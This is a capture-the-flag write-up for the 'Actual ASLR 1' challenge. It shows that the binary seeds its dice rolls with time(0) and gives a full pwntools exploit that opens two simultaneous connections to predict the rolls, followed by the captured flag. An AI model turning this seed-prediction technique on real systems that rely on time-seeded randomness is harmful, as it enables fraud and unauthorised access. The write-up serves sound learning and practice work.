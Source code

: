 # Actual ASLR 1
> Difficulty: Easy  
> Author: LiveOverflow

Prove that you can win 0xf times against the house. Then go to Vegas.

Challenge Files: [aaslr.zip](./aaslr.zip)

We were given one zip file. Extracting it, gives us several files: [aaslr](./aaslr), [Dockerfile](./Dockerfile), [flag1](./flag1), [flag2](./flag2), [ynetd](./ynetd)

There seems to be two flags in this challange but I only focus on getting one.

The most interesting file is the binary file [aaslr](./aaslr) which provides us some interaction to:
1. throw dice
2. create entry
3. read entry
4. take a guess

Disassembling this file gives us several information:
1. We need to guess dices correctly 0xf times to be able read the content of [flag2](./flag2)
2. On the function `init_heap`, program pass `time(0)` as a parameter to `raninit` function

With those two information, we can guess that the program is using `time(0)` as a seed for randomization. This can be abused since `time` is only second-precise.  

The idea, is to open two consecutive connection running at the same time, one of which will be used to see the output of throwing a dice (through menu number 1 `throw dice`), the other will be used to guess.

Here is the full exploit:
```py
from pwn import *
import threading

p1 = null
p2 = null


def thread_function(p):
    global p1
    global p2
    l = listen()
    if(p == '1'): 
        p1 = process(['ncat', '--ssl', '7b000000c26cc46a36b15357.challenges.broker5.allesctf.net', '1337'])
        # p1 = process('./aaslr')
    elif (p == '2'):
        p2 = process(['ncat', '--ssl', '7b000000c26cc46a36b15357.challenges.broker5.allesctf.net', '1337'])
        # p2 = process('./aaslr')

def throw_dice(p):
    p.recvuntil('Select menu Item:')
    p.sendline('1')
    p.recvuntil('[>] Threw dice: ')
    return p.recvuntil('\n')[:-1]

def take_guess(p1, p2):
    p1.recvuntil('Select menu Item:')
    p1.sendline('4')
    for i in range(0xf):
        p1.recvuntil(' guess next dice roll:')
        p1.sendline(throw_dice(p2))

x = threading.Thread(target=thread_function, args=('1',))
y = threading.Thread(target=thread_function, args=('2',))
x.start()
y.start()
x.join()
y.join()

take_guess(p1,p2)
p1.interactive()
```

Output: 
```
[>] CORRECT! You should go to Vegas.
ALLES{ILLEGAL_CARD_COUNTING!_BANNED}
```

Flag: ALLES{ILLEGAL_CARD_COUNTING!_BANNED}